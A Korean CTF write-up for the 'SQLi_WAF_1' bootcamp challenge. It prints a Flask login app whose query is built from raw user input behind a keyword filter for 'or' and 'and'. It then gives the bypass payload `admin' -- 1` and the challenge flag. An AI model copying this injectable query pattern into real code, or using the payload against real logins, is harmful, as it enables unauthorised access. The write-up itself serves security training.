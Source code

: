 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.1 SQLi_WAF_1"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-28T23:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10030/>

![3.1 SQLi WAF 1 1](/assets/images/writeup/web-hacking/knock-on/3-1_SQLi_WAF_1_1.png)

![3.1 SQLi WAF 1 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.1 SQLi WAF 1 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)


@app.route("/")
def home():
    return render_template("index.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")


@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)


if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and']
username = request.form["username"].lower()
password = request.form["password"].lower()

for filter in filtering_list :
    if (filter in username) or (filter in password):
        return render_template("login.html", error='no Hack!')
```

`username`과 `password`에 `filtering_list`에 있는 키워드들을 사용하면 로그인 시도가 차단됨 

또한 `OR`과 `AND`와 같이 대문자로 입력을 해도 모두 소문자로 바뀌어 필터링됨

`WAF(Web Application Firewall) Bypass`기법과 같이 보안 시스템을 우회하는 것처럼, 서버에서 정해놓은 `filtering_list`의 키워드들을 우회하여 SQL Injection을 시도해야 함

|

```python
if user and user[1] == "admin":
    return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
```

쿼리가 유효하고 admin으로 로그인 성공 시 화면에 flag가 출력됨

|

|

|

## Exploit

1. `‘`를 입력하면 에러가 뜸 → SQL Injection 가능

2. admin으로 로그인 시도

    ```python
    admin' -- 1
    ```

`or`과 `and`를 사용할 필요도 없이 로그인 성공

|

|

|

## Payload

```
username: admin' -- 1 

password: 1
```

|

|

### FLAG

---

```
K0{and_and_or_bypass!}
```

|

---